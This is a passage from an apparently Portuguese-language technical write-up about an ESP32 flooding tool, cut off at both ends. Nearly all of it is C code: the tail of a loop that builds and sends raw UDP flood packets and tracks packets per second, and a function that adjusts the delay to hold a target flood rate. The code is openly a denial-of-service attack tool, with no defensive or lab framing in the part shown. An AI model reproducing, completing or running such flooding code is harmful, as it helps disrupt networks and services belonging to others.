 ```c
                break;
            default:
                create_udp_flood_packet(packet_buffer, &packet_size);
        }
        
        // Enviar pacote
        esp_err_t result = send_raw_packet(packet_buffer, packet_size);
        
        if (result == ESP_OK) {
            packets_sent++;
            bytes_sent += packet_size;
            packets_this_second++;
            
            if (packets_sent % 100 == 0) {
                ESP_LOGD(TAG, "💥 Pacote #%d enviado (%d bytes)", 
                         packets_sent, packet_size);
            }
        }
        
        // Controle de rate
        uint32_t elapsed_ms = current_time - last_stats_time;
        if (elapsed_ms >= 1000) {  // 1 segundo
            update_flood_stats(packets_this_second, elapsed_ms);
            packets_this_second = 0;
            last_stats_time = current_time;
        }
        
        // Delay para controlar taxa
        uint32_t target_interval = 1000 / TARGET_PACKET_RATE;  // ms
        vTaskDelay(pdMS_TO_TICKS(target_interval));
    }
    
    show_final_flood_stats();
}
```

#### 3.4 Controle de Taxa Dinâmico
```c
void adjust_flood_rate(void) {
    static uint32_t last_adjustment = 0;
    uint32_t current_time = xTaskGetTickCount() * portTICK_PERIOD_MS;
    
    if (current_time - last_adjustment > RATE_ADJUSTMENT_INTERVAL) {
        if (actual_rate_pps < target_rate_pps * 0.9) {
            // Taxa muito baixa, reduzir delay
            current_delay_ms = (current_delay_ms * 9) / 10;
            ESP_LOGD(TAG, "📈 Aumentando taxa: delay = %dms", current_delay_ms);
        } else if (actual_rate_pps > target_rate_pps * 1.1) {
            // Taxa muito alta, aumentar delay
            current_delay_ms = (current_delay_ms * 11) / 10;
            ESP_LOGD(TAG, "📉 Reduzindo taxa: delay = %dms", current_delay_ms);
        }
        
        last_adjustment = current_time;
    }
}
```
